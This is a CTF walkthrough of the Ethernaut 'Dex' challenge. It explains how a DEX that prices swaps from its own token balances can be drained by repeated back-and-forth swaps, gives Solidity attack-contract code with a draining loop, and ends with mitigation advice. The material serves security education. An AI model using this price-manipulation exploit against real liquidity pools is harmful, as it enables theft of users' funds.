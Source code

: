 # Ethernaut Walkthrough: Dex
## Welcome to KweenBirb's 23rd installment of Ethernaut walkthroughs!

Ethernaut is a set of gamified Solidity challenges in the style of a CTF, where each level features a hackable smart contract that will inform you of various known security vulnerabilities on EVM blockchains.

This repo will walk you through a solution to Dex.sol, the 23rd challenge in the series. You can find the challenge itself and fully fleshed out solution in the .txt file in this directory and the .sol file in the src directory. Let's begin!

OpenZeppelin instructs us 'to hack the basic DEX contract below and steal the funds by price manipulation.` They later elaborate that the goal is to 'drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.'

Okay, wow! We're in the big leagues now huh? DeFi exploits on AMM liquidity pools! Let's get going, then.

## The price mechanism

Since Ethernaut hints that a 'bad' price reported by the smart contract is involved in the exploit, we begin by examining the price mechanism.

Price quotes for swaps are calculated by identifying the ratio of liquidity between the two tokens and then multiplying the ratio by the amount of token being sold. This is described by the getSwapPrice() function, where these steps are accomplished first by dividing the contract's balance of tokens to buy (parameter named 'to') by the contract's balance of tokens to sell (parameter named 'from'). That ratio is then applied to the supplied amount of tokens to sell to return the price quote.

```
function getSwapPrice(address from, address to, uint amount) public view returns (uint) {
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
}
```

Here's a simple equation to illustrate:

```swapAmount = suppliedAmount * buyBalance/sellBalance```

## The swap() function mechanism

Great, now that we've identified how price is calculated, let's trace the execution of a swap() to see what we can glean:

```
function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}
```

The swap function execution steps are as follows: 
1. limits parameters to only accept the two storage variables that store tokens for this pool;
2. checks to ensure msg.sender has enough 'from' tokens to perform swap using the provided uint amount
3. calls function to set swapAmount = suppliedAmount * newBalance/oldBalance
4. calls transferFrom on oldToken, transferring supplied amount to sell into this contract pool
5. calls approve on newToken, allowing this contract to spend swapAmount of desired token
6. calls transferFrom on newToken, transferring previously approved swapAmount to msg.sender, completing the (d)exchange

Knowing this, the easiest way to throw off the price recordkeeping would be to change the contract's balance of tokens for when it checks it in the getSwapPrice() function. Unfortunately for us, however, addLiquidity() is restricted by the onlyOwner modifier. But wait! That doesn't stop us from simply manually transferring tokens to the contract!

## Using a basic transfer to catalyze economic imbalance

We may not be able to call addLiquidity(), but using a regular ERC20 transfer() we can cause the calls to balanceOf(address(this)) in getSwapPrice() to return values the dex contract was not built to expect. The general process would look something like this:

```
    First, transfer() 10token1 to contract -> IERC20(token1).balanceOf(address(this)) == 110
        contract: 100 100 -> 110 100
        hacker:   10  10  -> 0   10
    swapAmount = 10 * 110 / 100  // 1.1 ratio means hacker can obtain 11 token1 in exchange for 10 token2
        contract: 110 100 -> 99 110
        hacker:   0   10  -> 11 0
    
    Second, swap again:
    swapAmount = 11 * 110 / 99  // == 12.2 so hacker can exchange 11 token1 for 12.2 token2
        contract: 99 110 -> 110 97.8
        hacker:   11 0   -> 0   12.2

    again:
    swapAmount = 12.2 * 110 / 97.8  // == 13.7 so hacker can exchange 12.2 token2 for 13.7 token1
        contract: 110 97.8 -> 96.3 110
        hacker:   0   12.2 -> 13.7 0

    again:
    swapAmount = 13.7 * 110 / 96.3  // == 15.6 so hacker can exchange 13.7 token1 for 15.6 token2
        contract: 96.3 110 -> 110 94.4
        hacker:   13.7 0   -> 0   15.6

    again:
    swapAmount = 15.6 * 110 / 94.4  // == 18.2
        contract: 110 94.4 -> 91.8 110
        hacker:  0   15.6  -> 18.2 0

    again:
    swapAmount = 18.2 * 110/ 91.8  // == 21.8
```

You get the point. By causing an initial imbalance of assets in the pool, we can bundle repeated swap calls to leverage the imbalance so that it expands until the entire balance of one side of the pool is drained. 

## Writing code to accomplish the hack

First we should set up our environment of imports and addresses needed to pull off the hack:

```
import "./Dex.sol";

contract Draino {
    address public token1;
    address public token2;
    address private hacker;
    Dex dex;

    constructor(address $your_ethernaut_instance_here) {
        dex = Dex($your_ethernaut_instance_here);
        token1 = dex.token1();
        token2 = dex.token2();
        hacker = msg.sender;
    }
}
```

With that framework in place, we can create SwappableToken instances on the addresses in storage and preemptively set max approvals from our address (hacker) to the malicious contract we're writing:

```
function drain() public {
    // approve this contract to spend both of user's initial 10tokens
    SwappableToken a = SwappableToken(token1);
    SwappableToken b = SwappableToken(token2);
    a.approve(hacker, address(this), (2**256 - 1));
    b.approve(hacker, address(this), (2**256 - 1));
}
```

Then we can commence the hack by transferring 10 token1 to the dex to cause a liquidity imbalance and transferring 10 token2 to the malicious contract we're writing so it can take the reins.

```
// send 10 token1 to dex to initialize unexpected contract liquidity imbalance
IERC20(token1).transferFrom(hacker, address(dex), 10);
// obtain 10token2 liquidity from hacker to start exploit
IERC20(token2).transferFrom(hacker, address(this), 10);
```

Since we'll want the contract to continually swap back and forth until one side of the liquidity pool reaches 0, we can use a while loop:

```
while (dex.balanceOf(token1, address(dex)) > 0 && dex.balanceOf(token2, address(dex)) > 0) {
    uint balance = dex.balanceOf(token1, address(this));

    // alternate swap in other direction
    if (balance == 0) { 
        balance = dex.balanceOf(token2, address(this));
          
        // set allowance for dex in from to msg.sender
        b.approve(address(this), address(dex), balance);

        // catch issue where swapAmount is set to 245, more than the dex pool holds!
        if (dex.getSwapPrice(token2, token1, balance) > 110) {
            balance = 34;
            dex.swap(token2, token1, balance);
        } else {
            dex.swap(token2, token1, balance);
        }
    } else {
        a.approve(address(dex), balance);

        // catch same swapAmount == 245 issue in reverse direction
        if (dex.getSwapPrice(token1, token2, balance) > 110) {
            balance = 34;
            dex.swap(token1, token2, balance);
        } else {
            dex.swap(token1, token2, balance);
        }
    }
}
```

As you can see we had to catch the issue where the penultimate swap pushes the swap amount to a high amount, 245, which exceeds the balance of the liquidity pool. That will cause the final swap to fail and revert the transaction, so we manually entered the correct amount to rectify the final swap and fully drain the pool.

## Takeaways

As you can see, it's recommended never to rely on balance readings performed on address(this). Whether done through the ERC20/721 balanceOf() method or Solidity's address(this).balance, this method can be rendered unreliable as the EVM is a permissionless environment where tokens can be added to an address unexpectedly. The classic example illustrating this issue is the selfdestruct() opcode that forcibly sends ether.

A simple fix is to implement decentralized oracle data feeds like those of Chainlink to replace ```balanceOf(address(this))``` calls! There are of course a few considerations when using oracle data sources for price and liquidity calculations but it's leagues better than the code used in this Ethernaut challenge ;)

Congratulations on your first Dex hack!

○•○ h00t h00t ○•○
